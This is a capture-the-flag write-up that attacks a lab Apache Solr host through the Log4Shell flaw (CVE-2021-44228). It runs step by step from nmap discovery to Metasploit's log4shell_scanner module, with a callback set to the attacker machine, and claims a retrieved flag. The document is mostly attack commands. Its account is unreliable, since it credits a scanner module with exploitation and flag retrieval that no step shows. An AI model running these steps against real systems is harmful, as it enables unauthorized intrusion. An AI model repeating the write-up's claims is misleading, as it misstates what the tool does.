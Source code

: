 # Vulnerability Exploitation Report: CVE-2021-44228

## Vulnerability Overview
**CVE ID**: CVE-2021-44228  
**CVSS Score**: 10.0 (Critical)  
**Description**: The Log4j2 vulnerability, also known as Log4Shell, is an input validation flaw in Apache Log4j (version 2.x) that allows unauthenticated remote code execution (RCE). Attackers can exploit this by injecting malicious JNDI strings in loggable input fields, leading to arbitrary code execution on the target system.

## Objective
Exploit the CVE-2021-44228 vulnerability on a target Apache Solr instance, which uses a vulnerable Log4j version, to gain unauthorized access and retrieve a flag as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.7
- **Target Port**: 8983 (Apache Solr default port)
- **Attack Machine IP**: 192.168.0.5
- **Objective**: Retrieve the flag

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.7) across all ports to confirm the presence of Apache Solr.

```
nmap -p- -sV 192.168.5.7
```

### Step 3: Verify Apache Solr Accessibility
Confirm the Apache Solr instance is accessible by sending an HTTP request to port 8983.

```
curl -L http://192.168.5.7:8983
```

### Step 4: Launch Metasploit
Start the Metasploit Framework to access exploit modules.

```
msfconsole
```

### Step 5: Search for Apache Solr Exploit
Search Metasploit for modules related to Apache Solr, which may be affected by Log4j vulnerabilities.

```
search apache solr
```

### Step 6: Select Log4Shell Scanner Module
Choose the Metasploit module designed to scan and exploit the Log4Shell vulnerability.

```
use auxiliary/scanner/http/log4shell_scanner
```

### Step 7: Review Module Details
Display information about the selected module to understand its options and requirements.

```
info
```

### Step 8: Configure the Target Host
Set the target host to the Apache Solr instance’s IP address.

```
set RHOSTS 192.168.5.7
```

### Step 9: Configure the Target Port
Set the target port to 8983, where Apache Solr is running.

```
set RPORT 8983
```

### Step 10: Configure the Server Host
Set the server host IP for the callback connection to the attacker’s machine.

```
set SRVHOST 192.168.0.5
```

### Step 11: Execute the Exploit
Run the exploit to detect and exploit the Log4Shell vulnerability on the target system.

```
exploit
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: iS2kKQ2uTjqhj9Fl